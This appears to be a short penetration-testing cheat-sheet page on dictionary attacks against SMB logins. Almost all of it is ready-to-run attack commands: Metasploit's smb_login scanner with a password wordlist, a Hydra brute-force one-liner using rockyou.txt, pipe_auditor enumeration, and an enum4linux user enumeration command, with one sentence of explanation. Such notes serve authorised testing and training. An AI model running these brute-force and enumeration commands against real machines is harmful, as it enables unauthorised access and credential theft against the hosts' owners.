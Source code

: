 # Dictionary Attack

This module will test an SMB login on a range of machines and report successful logins. If you have loaded a database plugin and connected to a database this module will record successful logins and hosts so you can track your access.

## Metasploit

```bash
msfconsole
use auxiliary/scanner/smb/smb_login 
set rhosts $IP
set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
set smbuser $USER_NAME # first there`s a need to enumerate some users
run
```

## Hydra

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP smb
```

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

## SMB pipes

```bash
msfconsole
use auxiliary/scanner/smb/pipe_auditor
set smbuser $USER_NAME
set smbpass $PASSWORD
set rhosts $IP
run
```

## enum4linux

```bash
enum4linux -r -u "$USER_NAME" -p "$PASSWORD"
```
